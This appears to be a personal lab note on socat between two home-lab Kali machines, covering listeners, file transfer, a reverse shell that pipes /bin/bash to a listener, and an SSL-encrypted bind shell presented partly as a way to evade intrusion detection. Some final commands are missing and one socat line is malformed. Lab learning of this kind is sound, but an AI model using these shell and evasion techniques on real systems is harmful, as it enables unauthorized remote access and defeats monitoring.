

# Content

- [Content](#content)
  - [Setup](#setup)
  - [Connect to remote host](#connect-to-remote-host)
  - [Transfer files](#transfer-files)
    - [Senario](#senario)
    - [Command](#command)
  - [Reverse shell](#reverse-shell)
    - [From purple to kali](#from-purple-to-kali)
  - [Bind shell](#bind-shell)
    - [Reasion why use SSL with bind shell](#reasion-why-use-ssl-with-bind-shell)
    - [IDS](#ids)

## Setup

- I use a Kali machine with IP: 192.168.50.156 with user 
- I use a Kali Purple machine with IP: 192.168.50.159 with root user

## Connect to remote host

- Create a listener on port or remote host (KP)

  - command: `socat -d -d TCP4-LISTEN:4444 STDOUT`
  
  - Here you will see a bunch of additional information:
    - The protocol for the listener in the example above is TCP-LISTEN
    - STDOUT is standard output;
    - To bind listeners to ports below 1024 will require root privileges (or run sudo);
    - option “-d -d” to increase the granularity of messages and errors (if any);
    - The message in the red box appears when you create an incoming connection.

- Connect to remote host from Kali machine
  - command: `socat -d -d TCP4;192.168.50.159:4444`
  
  - In Socat's syntax, you'll see additional things appear:
    - The "-" sign identifies the data transmission between the STDIO and the remote host;
    - Specify the protocol to use, with the above example being TCP4;
    - Use ":" to separate protcol, option, port;

## Transfer files

### Senario

- I wil send a file name "secret.txt" from Kali machine to Purple machine.

### Command

- In kali, i use commmand: `socat TCP4-LISTEN:4444,fork file:hello.txt`
  
- Here you will see a new object called fork with the function of creating a child process (roughly translated as child process) once there is a connection to the listener. This will allow you to run multiple connections as needed;
- “file:” will specify the file to be saved on Kali Linux (in this case, the file is hello.txt);

- In Purple machine, i use command: `socat TCP4:192.168.50.156:4444 file:received_hello.txt,create`
  
- create: create a new file if it does not exist.

## Reverse shell

### From purple to kali

- In purple, i use command: `socat TCP4-LISTEN:4444 STDOUT`
  
- In kali, i use command: `socat TCP4:192.168.50.159:4444 EXEC:/bin/bash`
  
- Finally, i can execute command in kali machine from purple machine
  

## Bind shell 

- To encrypt Bind Shell with Socat you can use SSL/TLS. This encryption will help dodge Intrusion Detection System (IDS) bullets as well as hide sensitive data.
  
### Reasion why use SSL with bind shell
- You can completely use SSL/TLS with Reverse Shell to encrypt data traveling over the network during a remote attack. In fact, using SSL/TLS is also very effective in this case to help avoid IDS and prevent spyware or block the connection.
- However, using SSL/TLS with Bind Shell is more necessary because when you use Bind Shell, your computer will listen and accept incoming connections from other computers. This means that you must ensure that only secure and trusted connections are accepted. If no means of security are deployed, an attacker can easily monitor and spy on the information sent and received over that connection. Therefore, using SSL/TLS for Bind Shell encryption is the best way to protect your information on the network.
  
### IDS

- IDS stands for Intrusion Detection System - Intrusion Detection System. IDSs are used to monitor activities on the network and detect unusual or risky behavior in the network.
- The mechanism of IDS is usually divided into 2 types:
  - Signature-based IDS: IDS examines packets on the network and compares them with known signatures of past attacks. If the packets match the signature of an attack, the system will detect and alert the network administrators.
  - Anomaly-based IDS: This is a type of IDS that uses data analysis algorithms to identify unusual activity on the network. IDS stores information about regular activities on the network and uses it to compare with new activities. If a new activity does not conform to established standards, the IDS will detect and alert the network administrator.

- I will use openssl application to generate self-signed certificate (i.e. I generate self-signed Certificate, no need for CA like with HTTPS) with the following command on Kali Linux:
  `openssl req -newkey rsa:2048 -nodes -keyout b-shell.key -x509 -days 69 -out b-shell.crt`
  - req: initiate a new certificate signing request
  - newkey: generate new private key
  - rsa:2048: use asymmetric encryption RSA key length 2,048-bit (I mentioned RSA in ...)
  - nodes: save private key without passphrase protection
  - keyout: save the key to a file
  - x509: export self-signed certificate instead of certificate request
  - days: set the expiry date in days
  - out: save the certificate to a file
- The above command will generate the private key b-shell.key and certificate b-shell.crt used for Bind Shell encryption.
  
- Once the families (b-shell.key and b-shell.crt) are ready, the next thing you need to do is combine these two files into one pem file so that you can create an encrypted Socat listener.
  
- The next step is to create a listener with the command.
  
  - In the above command, there are a few points to note:
    - option OPENSSL-LISTEN:443 to create listener on port 443
    - cert=b-shell.pem will specify the corresponding certificate as b-shell.pem;
    - verify=0 will disable SSL verification;
- Assuming the layout is done, you can now test it on purple by running the command.
  